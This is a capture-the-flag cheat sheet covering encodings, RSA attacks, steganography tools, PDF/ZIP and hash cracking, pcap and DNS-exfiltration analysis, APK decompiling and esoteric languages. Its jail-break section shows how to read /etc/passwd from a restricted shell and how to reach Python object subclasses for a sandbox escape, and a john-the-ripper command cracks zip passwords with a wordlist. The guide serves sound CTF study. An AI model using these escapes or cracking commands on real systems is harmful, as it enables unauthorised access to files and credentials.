	If your challenges references "EFF" or includes dice in some way, or showcases numbers 1-6 of length 5, try [https://www.eff.org/dice](https://www.eff.org/dice). This could refer to a passphrase generated by dice rolls available here: [https://www.eff.org/files/2016/07/18/eff_large_wordlist.txt](https://www.eff.org/files/2016/07/18/eff_large_wordlist.txt)

* [Base64], [Base32], [Base85], [Base91](https://www.dcode.fr/base-91-encoding) 
```
Base64:
TWFuIGlzIGRpc3Rpbmd1aXNoZWQsIG5vdCBvbmx5IGJ5IGhpcyByZWFzb24sIGJ1dCBieSB0aGlz
IHNpbmd1bGFyIHBhc3Npb24gZnJvbSBvdGhlciBhbmltYWxzLCB3aGljaCBpcyBhIGx1c3Qgb2Yg
dGhlIG1pbmQsIHRoYXQgYnkgYSBwZXJzZXZlcmFuY2Ugb2YgZGVsaWdodCBpbiB0aGUgY29udGlu
dWVkIGFuZCBpbmRlZmF0aWdhYmxlIGdlbmVyYXRpb24gb2Yga25vd2xlZGdlLCBleGNlZWRzIHRo
ZSBzaG9ydCB2ZWhlbWVuY2Ugb2YgYW55IGNhcm5hbCBwbGVhc3VyZS4=
```

```
Base32
ORUGS4ZANFZSAYLOEBSXQYLNOBWGKIDPMYQGEYLTMUZTELRANF2CA2LTEB3GS43JMJWGKIDCPEQGY33UOMQG6ZRAMNQXA2LUMFWCA3DFOR2GK4TTEBQW4ZBANVXXEZJAMVYXKYLMOMQHG2LHNZZSAZTPOIQHAYLEMRUW4ZZMEBSXQ5DSME======
```

```
Base85:
<~9jqo^BlbD-BleB1DJ+*+F(f,q/0JhKF<GL>Cj@.4Gp$d7F!,L7@<6@)/0JDEF<G%<+EV:2F!,
O<DJ+*.@<*K0@<6L(Df-\0Ec5e;DffZ(EZee.Bl.9pF"AGXBPCsi+DGm>@3BB/F*&OCAfu2/AKY
i(DIb:@FD,*)+C]U=@3BN#EcYf8ATD3s@q?d$AftVqCh[NqF<G:8+EV:.+Cf>-FD5W8ARlolDIa
l(DId<j@<?3r@:F%a+D58'ATD4$Bl@l3De:,-DJs`8ARoFb/0JMK@qB4^F!,R<AKZ&-DfTqBG%G
>uD.RTpAKYo'+CT/5+Cei#DII?(E,9)oF*2M7/c~>
```

```
Base91:
8D$J`/wC4!c.hQ;mT8,<p/&Y/H@$]xlL3oDg<W.0$FW6GFMo_D8=8=}AMf][|LfVd/<P1o/1Z2(.I+LR6tQQ0o1a/2/WtN3$3t[x&k)zgZ5=p;LRe.{B[pqa(I.WRT%yxtB92oZB,2,Wzv;Rr#N.cju"JFXiZBMf<WMC&$@+e95p)z01_*UCxT0t88Km=UQJ;WH[#F]4pE>i3o(g7=$e7R2u>xjLxoefB.6Yy#~uex8jEU_1e,MIr%!&=EHnLBn2h>M+;Rl3qxcL5)Wfc,HT$F]4pEsofrFK;W&eh#=#},|iKB,2,W]@fVlx,a<m;i=CY<=Hb%}+},F
```


* [Base65535](https://github.com/qntm/base65536)


	Unicode characters encoding. Includes a lot of seemingly random spaces and chinese characters!

```
𤇃𢊻𤄻嶜𤄋𤇁𡊻𤄛𤆬𠲻𤆻𠆜𢮻𤆻ꊌ𢪻𤆻邌𤆻𤊻𤅋𤲥𣾻𤄋𥆸𣊻𤅛ꊌ𤆻𤆱炼綻𤋅𤅴薹𣪻𣊻𣽻𤇆𤚢𣺻赈𤇣綹𤻈𤇣𤾺𤇃悺𢦻𤂻𤅠㢹𣾻𤄛𤆓𤦹𤊻𤄰炜傼𤞻𢊻𣲻𣺻ꉌ邹𡊻𣹫𤅋𤇅𣾻𤇄𓎜𠚻𤊻𢊻𤉛𤅫𤂑𤃃𡉌𤵛𣹛𤁐𢉋𡉻𡡫𤇠𠞗𤇡𡊄𡒌𣼻燉𣼋𦄘炸邹㢸𠞻𠦻𡊻𣈻𡈻𣈛𡈛ꊺ𠆼𤂅𣻆𣫃𤮺𤊻𡉋㽻𣺬𣈛𡈋𤭻𤂲𣈻𤭻𤊼𢈛儛𡈛ᔺ
```

* [Base41](https://github.com/sveljko/base41/blob/master/python/base41.py)

* "Unflattening" Base64 in lowercase or uppercase

	Some time ago we needed to recover the original Base64 string from one that is in all lowercase or all uppercase. Caleb wrote a good script to smartly do this: [https://pastebin.com/HprZcHrY](https://pastebin.com/HprZcHrY)

* [Enigma](https://en.wikipedia.org/wiki/Enigma_machine)

	Machine used by the Germans during World War II to encrypt messages. Still takes a lot of time to crack today, but some tricks can be used to speed up the process.

	[404CTF WU](https://remyoudompheng.github.io/ctf/404ctf/enigma.html)


	

## RSA


[RSA](https://en.wikipedia.org/wiki/RSA_(cryptosystem)) is an **asymetric** cryptographic algorithm. A **public key** is used to encrypt data and a **private key** is used to decrypt data.

The variables of textbook RSA are:
- **N**: the product of two large primes
- **e**: the public exponent
- **d**: the private exponent

The public key is (N, e) and the private key is (N, d).

### Key generation
1. Choose two large primes **p** and **q**.
2. Compute **N = p * q**.
3. Compute **phi = (p - 1) * (q - 1)**.
4. Choose an integer **e** such that **1 < e < phi** and **gcd(e, phi) = 1** (usually **e = 65537**).
5. Compute **d** such that **d * e = 1 mod phi** i.e. **d = e^-1 mod phi**. (for exemple with the [Extended Euclidean algorithm](https://en.wikipedia.org/wiki/Extended_Euclidean_algorithm))

### Encryption
To encrypt a message **m** with the public key **(N, e)**, compute $c = m^e \mod N$.

c is the ciphertext.

### Decryption
To decrypt a ciphertext **c** with the private key **(N, d)**, compute $m = c^d \mod N$.

m is the deciphered message.

Several attacks exist on RSA depending on the circumstances.

* [RSA CTF Tool](https://github.com/RsaCtfTool/RsaCtfTool)

    Performs several attacks on RSA keys. Very useful for CTFs.


* RSA: Classic RSA

	Variables typically given: `n`, `c`, `e`. _ALWAYS_ try and give to [http://factordb.com](http://factordb.com). If `p` and `q` are able to be determined, use some RSA decryptor; handmade code available here: [https://pastebin.com/ERAMhJ1v](https://pastebin.com/ERAMhJ1v)

__If FactorDB cannot find factors, try [alpertron](https://www.alpertron.com.ar/ECM.HTM)__

* RSA: Multi-prime RSA

	When you see multi-prime RSA, you can use calculate `phi` by still using all the factors.

```
phi = (a - 1) * (b - 1) * (c - 1)    # ... etcetera
```


* RSA: `e` is 3 (or small)

	If `e` is 3, you can try the cubed-root attack. If you the cubed root of `c`, and if that is smaller than the cubed root of `n`, then your plaintext message `m` is just the cubed root of `c`! Here is [Python](https://www.python.org/) code to take the cubed root:

```
def root3rd(x):
    y, y1 = None, 2
    while y!=y1:
        y = y1
        y3 = y**3
        d = (2*y3+x)
        y1 = (y*(y3+2*x)+d//2)//d
    return y
```

* RSA: Wiener's Little D Attack

	The telltale sign for this kind of challenge is an enormously large `e` value. Typically `e` is either 65537 (0x10001) or `3` (like for a Chinese Remainder Theorem challenge). Some stolen code available here: [https://pastebin.com/VKjYsDqD](https://pastebin.com/VKjYsDqD)

* RSA:  Boneh-Durfee Attack
	The tellgate sign for this kind of challenge is also an enormously large `e` value (`e` and `n` have similar size).
Some code for this attack can be found [here](https://github.com/mimoo/RSA-and-LLL-attacks/blob/master/boneh_durfee.sage)

* RSA: Chinese Remainder Attack

	These challenges can be spotted when given  mutiple `c` cipher texts and multiple `n` moduli. `e` must be the same number of given `c` and `n` pairs. Some handmade code here: [https://pastebin.com/qypwc6wH](https://pastebin.com/qypwc6wH)

* [RSA: Fixed Point](https://crypto.stackexchange.com/questions/81128/fixed-point-in-rsa-encryption)

    These challenges can be spotted when the input is not changed with encrypted/decrypted.

    There are 6 non-trivial fixed points in RSA encryption, caracterized by $m$ mod $p \in \{0, 1, -1\}$ **and** $m$ mod $q \in \{0, 1, -1\}$.

    It is possible to deduce one of the prime factors of $n$ from the fixed point, since $\text{gcd}(m−1,n),\ \text{gcd}(m,n),\ \text{gcd}(m+1,n)$ are $1, p, q$ in a different order depending on the values of $m$ mod $p$ and $m$ mod $q$.

    To find the other prime factor, you can simply use the Euclidean algorithm : 
    ```python
    q = n//p # in python
    ```
<br><br>

# Steganography


WHEN GIVEN A FILE TO WORK WITH, DO NOT FORGET TO RUN THIS STEGHIDE WITH AN EMPTY PASSWORD!

* [`steghide`](http://steghide.sourceforge.net/)

	Hide data in various kinds of image- and audio-files using a passphrase.

* [StegCracker](https://github.com/Paradoxis/StegCracker)

	Brute force passphrases for steghide encrypted files. Different data can have different passphrases.

* [Steganography Online](http://stylesuxx.github.io/steganography/)

	Online tool to hide data in images.

* [StegSeek](https://github.com/RickdeJager/stegseek)

	Faster than `stegcracker`.

* [`steg_brute.py`](https://github.com/Va5c0/Steghide-Brute-Force-Tool)

	This is similar to `stegcracker`.

* [`Stegsolve.jar`](http://www.caesum.com/handbook/stego.htm)

	View the image in different colorspaces and alpha channels.


* [`stepic`](http://domnit.org/stepic/doc/)

	Python library to hide data in images.

* [Digital Invisible Ink Stego Tool](http://diit.sourceforge.net/)

	A Java steganography tool that can hide any sort of file inside a digital image (regarding that the message will fit, and the image is 24 bit colour)


* [ImageHide](https://www.softpedia.com/get/Security/Encrypting/ImageHide.shtml)

	Hide any data in the LSB of an image. Can have a password.

* [stegoVeritas](https://github.com/bannsec/stegoVeritas/)

	CLI tool to extract data from images.

* Unicode Steganography / Zero-Width Space Characters

	Messages can be hidden in the unicode characters. For example usig the zero-width space character in it. Use a modern IDE like [Code](https://code.visualstudio.com/) to find these characters.

* Online LSB Tools

	Some online tools to hide data in the LSB of images.

	[https://manytools.org/hacker-tools/steganography-encode-text-into-image/](https://manytools.org/hacker-tools/steganography-encode-text-into-image/) Only supports PNG
	[https://stylesuxx.github.io/steganography/](https://stylesuxx.github.io/steganography/)

* Other stego tools:

	[https://github.com/DominicBreuker/stego-toolkit](https://github.com/DominicBreuker/stego-toolkit)

* [`zsteg`](https://github.com/zed-0xff/zsteg)

	Command-line tool for **PNG** and **BMP** steganography.

* [`jsteg`](https://github.com/lukechampine/jsteg)

    Command-line tool for **JPEG** steganography.

* [Jstego][https://sourceforge.net/projects/jstego/]

    GUI tool for **JPG** steganography.

* [`openstego`](https://www.openstego.com/)

	Steganography tool.

* Morse Code

	Morse code can be everywhere.

* Whitespace

	Tabs and spaces (for exemple in the indentation) can hide data. Some tools can find it: [`snow`](http://www.darkside.com.au/snow/) or an esoteric programming language interpreter: [https://tio.run/#whitespace](https://tio.run/#whitespace)

* [`snow`](http://www.darkside.com.au/snow/)

	A command-line tool for whitespace steganography.

* [`exiftool`](https://exiftool.org/)

	Tool to view and edit metadata in files.

* Extract Thumbnail (data is covered in original image)

	If you have an image where the data you need is covered, try viewing the thumbnail:

```
exiftool -b -ThumbnailImage my_image.jpg > my_thumbnail.jpg
```

* [spectrogram](https://en.wikipedia.org/wiki/Spectrogram)

	An image can be hidden in the spectrogram of an audio file. [`audacity`](https://www.audacityteam.org/) can show the spectrogram of an audio file. (To select Spectrogram view, click on the track name (or the black triangle) in the Track Control Panel which opens the Track Dropdown Menu, where the spectrogram view can be selected.. )

* [XIAO Steganography](https://xiao-steganography.en.softonic.com/)

	Windows software to hide data in audio.

* [DTMF](https://en.wikipedia.org/wiki/Dual-tone_multi-frequency_signaling).

	Dual tone multi-frequency is a signaling system using the voice-frequency band over telephone lines. It can be used to send text messages over the phone. Some tool: [Detect DTMF Tones](http://dialabc.com/sound/detect/index.html) 
	

* Phone-Keypad

	Letters can be encoded with numbers using a phone keypad.


* [`hipshot`](https://bitbucket.org/eliteraspberries/hipshot)

	A python tool to hide a video in an image.

* [QR code](https://en.wikipedia.org/wiki/QR_code) 
	
	Square barcode that can store data.

* [`zbarimg`](https://linux.die.net/man/1/zbarimg)

	CLI tool to scan QR codes of different types.


* Corrupted image files

	See [Images forensics](#images)

<br><br>

# PDF Files


* [`pdfinfo`](https://poppler.freedesktop.org/)

	A command-line tool to get a basic synopsis of what the [PDF](https://en.wikipedia.org/wiki/Portable_Document_Format) file is.

* [`pdfcrack`](https://pdfcrack.sourceforge.net/)

	A comand-line tool to __recover a password from a PDF file.__ Supports dictionary wordlists and bruteforce.

* [`pdfimages`](https://poppler.freedesktop.org/)

	A command-line tool, the first thing to reach for when given a PDF file. It extracts the images stored in a PDF file, but it needs the name of an output directory (that it will create for) to place the found images.

* [`pdfdetach`](https://www.systutorials.com/docs/linux/man/1-pdfdetach/)

	A command-line tool to extract files out of a [PDF].
<br><br>

# ZIP Files


* `zip2john`

    Brute force password protected zip files.

``` bash
$ zip2john protected.zip > protected.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt protected.john
```

* [`bkcrack`](https://github.com/kimci86/bkcrack)

    Crack ZipCrypto Store files. Need some plaintext to work.


<br><br>

# Hashes


* [Hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)

    Different hash types exists, and they are used in different contexts. This page lists the most common hash types and their respective hashcat modes.

| Hash type | Byte Length | Hashcat mode | Example hash  |
|-----------|--------------|--------------|--------------|
| MD5      | 32  | 0    | `8743b52063cd84097a65d1633f5c74f5` |
| SHA1     | 40  | 100  | `b89eaac7e61417341b710b727768294d0e6a277b` |
| SHA256   | 64  | 1400 | `127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935` |
| SHA2-512 | 128 | 1700 | too long |


* [Haiti](https://github.com/noraj/haiti/)

    CLI Hash type identifier

* [Hashcat](https://hashcat.net/hashcat/)

    Crack hashes. Can use GPU.


* [John the Ripper](https://www.openwall.com/john/)

    Better compatibility and easier to use than hashcat, but lower number of hash types supported.

* [dcipher](https://github.com/k4m4/dcipher-cli)

    CLI tool to lookup hashes in online databases.
<br><br>

# OSINT


* [`Sherlock`](https://github.com/sherlock-project/sherlock)

    Python script to search for usernames across social networks.

* [Google reverse image search](https://www.google.fr/imghp)

    Search by image.
<br><br>

# Network

⇨ [DNS Exfiltration](#dns-exfiltration)<br>


* [Wireshark](https://www.wireshark.org/) 
	The go-to tool for examining [`.pcap`](https://en.wikipedia.org/wiki/Pcap) files.

* [Network Miner](http://www.netresec.com/?page=NetworkMiner) 
	Seriously cool tool that will try and scrape out images, files, credentials and other goods from [PCAP](https://en.wikipedia.org/wiki/Pcap) and [PCAPNG](https://github.com/pcapng/pcapng) files.

* [PCAPNG](https://github.com/pcapng/pcapng) 
	Not all tools like the [PCAPNG](https://github.com/pcapng/pcapng) file format... so you can convert them with an online tool [http://pcapng.com/](http://pcapng.com/) or from the command-line with the `editcap` command that comes with installing [Wireshark]:

```
editcap old_file.pcapng new_file.pcap
```

* [`tcpflow`](https://github.com/simsong/tcpflow)

	A command-line tool for reorganizing packets in a PCAP file and getting files out of them. __Typically it gives no output, but it creates the files in your current directory!__

```
tcpflow -r my_file.pcap
ls -1t | head -5 # see the last 5 recently modified files
```


* [PcapXray](https://github.com/Srinivas11789/PcapXray) 
	A GUI tool to visualize network traffic.
	

* [iodine](https://github.com/yarrick/iodine)

	DNS tunel, used to bypass firewalls. Can be decipherd with [this script](Network/Tools/iodine/exploit.py)

## DNS Exfiltration


DNS can be used to exfiltrate data, for example to bypass firewalls.

* [iodine](https://github.com/yarrick/iodine)

    Can be identifed by the presence of the "Aaahhh-Drink-mal-ein-Jägermeister" or "La flûte naïve française est retirée à Crête".<br>
    Can be decipherd with [this script](Network/Tools/iodine/exploit.py)<br>
    [Hack.lu CTF WU](http://blog.stalkr.net/2010/10/hacklu-ctf-challenge-9-bottle-writeup.html)

* [DNScat2](https://github.com/iagox86/dnscat2)

    Can be identified when [file signatures](#file%20scanning) are present in the DNS queries.
    Data can be extracted with [this script](Network/Tools/dnscat2/exploit.py) and fies can be extracted with [binwalk](#file%20scanning).


<br><br>

# Jail Break


* Missing `ls` or `dir` commands

	If you cannot run `ls` or `dir`, or `find` or `grep`, to list files you can use

```
echo *
echo /any/path/*
```


* restricted bash (`rbash`) read files

	If you are a restricted shell like `rbash` you can still read any file with some builtin commands like `mapfile`:

```
mapfile -t  < /etc/passwd
printf "$s\n" "${anything[@]}"
```


* Python 3

    `().__class__.__base__.__subclasses__()` - Gives access to `object` subclasses
<br><br>

# Android

⇨ [APK Forensics](#apk-forensics)<br>

* [Android Studio](https://developer.android.com/studio)

    Main IDE for Android development. Java and Kotlin can be used.

## APK Forensics


* [`jadx`](https://github.com/skylot/jadx)

    Decompiles Android APKs to Java source code.

* [`apktool`](https://ibotpeaches.github.io/Apktool/)

	A command-line tool to extract all the resources from an APK file. Usage:

```
apktool d <file.apk>
```


* [`dex2jar`](https://github.com/pxb1988/dex2jar)

	A command-line tool to convert a J.dex file to .class file and zip them as JAR files.


* [`jd-gui`](https://github.com/java-decompiler/jd-gui)

	A GUI tool to decompile Java code, and JAR files.


<br><br>

# Esoteric Languages


Tools
-----

* [DCode](https://www.dcode.fr)

	Support many crypto algorithms, but also some interesting tools.


* [Try It Online](https://tio.run/)

	Online tool for running code in many languages.


Languages
---------

* [Brainfuck](https://esolangs.org/wiki/brainfuck)

	Famous esoteric language, with a very simple syntax. Functions like a Turing machine.

Exemple Hello World:
```brainfuck
++++++++[>++++[>++>+++>+++>+<<<<-]>+>+>->>+[<]<-]>>.>---.+++++++..+++.>>.<-.<.+++.------.--------.>>+.>++.
```

* [COW](https://esolangs.org/wiki/COW)

	Uses MOO statements in different capitalizations to represent different instructions.

```
 MoO moO MoO mOo MOO OOM MMM moO moO
 MMM mOo mOo moO MMM mOo MMM moO moO
 MOO MOo mOo MoO moO moo mOo mOo moo
 ```

* [Malboge](https://esolangs.org/wiki/malbolge)

	Very hard language, that looks like Base85.

```
(=<`#9]~6ZY32Vx/4Rs+0No-&Jk)"Fh}|Bcy?`=*z]Kw%oG4UUS0/@-ejc(:'8dc
```

* [Piet](https://esolangs.org/wiki/piet)

	Programs are represented as images. Can be interpreted with [`npiet`](https://www.bertnase.de/npiet/)


* [Ook!](http://esolangs.org/wiki/ook!)

	Recognizable by `.` and `?`, and `!`. Online interpreter for this language: [https://www.dcode.fr/ook-language](https://www.dcode.fr/ook-language) 
	

Exemple code:
```
Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook! Ook! Ook? Ook! Ook? Ook.
Ook! Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook?
Ook! Ook! Ook? Ook! Ook? Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook.
```

* [Rockstar](https://esolangs.org/wiki/Rockstar)

	Look like song lyrics.
	Rockstar has an official online interpreter: [https://codewithrockstar.com/online](https://codewithrockstar.com/online)

Fizzbuzz in Rockstar:
```
Midnight takes your heart and your soul
While your heart is as high as your soul
Put your heart without your soul into your heart

Give back your heart


Desire is a lovestruck ladykiller
My world is nothing
Fire is ice
Hate is water
Until my world is Desire,
Build my world up
If Midnight taking my world, Fire is nothing and Midnight taking my world, Hate is nothing
Shout "FizzBuzz!"
Take it to the top

If Midnight taking my world, Fire is nothing
Shout "Fizz!"
Take it to the top

If Midnight taking my world, Hate is nothing
Say "Buzz!"
Take it to the top

Whisper my world
```
<br><br>

# Data Science

⇨ [Supervised Classification](#supervised-classification)<br>⇨ [Unsupervised Clasification](#unsupervised-clasification)<br>


* [SciKit Lean](https://scikit-learn.org/)

    Machine learning in Python.

* [SciKit Mine](https://scikit-mine.github.io/scikit-mine/)

    Data mining in Python.

* [(Book) Hands-On Machine Learning with Scikit-Learn, Keras, and TensorFlow, Aurélien Géron]()

    Very useful book that was used to create this section.

## Supervised Classification


#### Models

* [Logistic Regression]()

    High explainablility, reasonable computation cost.

* [Decision Tree]()

    Performs classification, regression, and multi-output tasks. Good at finding **orthogonal** decision boundaries.

    But very sensitive to small changes in the data, which make them hard to train.


* [Random Forest]()

    Very powerful model. Uses an ensemble method to combine multiple decision trees. 


* [Support Vector Machine (SVM)]()

    Popular model that performs linear and non-linear classification, regression, and outlier detection.

    Works well with **small to medium** sized datasets.


* [K-Nearest Neighbors (KNN)]()


* [Naive Bayes]()

* [Multi Layer Perceptron (MLP)]()

    A neural network model that can learn non-linear decision boundaries.

    Good for **large** datasets.

## Unsupervised Clasification


### Models

* [K-Means Clustering]()

    Simple clustering algorithm that groups data points into a specified number of clusters.

* [Gaussian Mixture Model (GMM)]()

    A probabilistic model that assumes that the data was generated from a finite sum of Gaussian distributions.


<br><br>

# Signal processing


* [Scipy](https://scipy.org/install/)

    Can be used for signal processing.

    Exemple is provided in [process_signal.ipynb](Signal%20processing/Tools/process_signal.ipynb)
<br><br>

# Wireless


* [`gnuradio`](https://wiki.gnuradio.org/index.php/InstallingGR)

    `gnuradio` and it's GUI `gnuradio-companion` are used to create or analyse RF (Radio Frequency) signals.
<br><br>

# Other CheatSheets


* [CTF-Katana](https://github.com/JohnHammond/ctf-katana)

    Most of the tools and idaes provided come from there.

* [Hack Tricks](https://book.hacktricks.xyz/)

    A collection of useful commands and tricks for penetration testing.

* [thehacker.recipes](https://www.thehacker.recipes/)

    Very complete on Active Directory.

* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

	Super useful repo that has a payload for basically every sceario

* [SecLists](https://github.com/danielmiessler/SecLists)

    A LOT of wordlists for different purposes.